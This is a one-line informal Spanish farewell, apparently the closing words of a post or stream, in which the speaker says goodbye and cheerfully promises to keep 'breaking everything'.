Y weno, nos vamos, nos vemos y nos vimos! A seguir rompiendo todooooooooooOo0!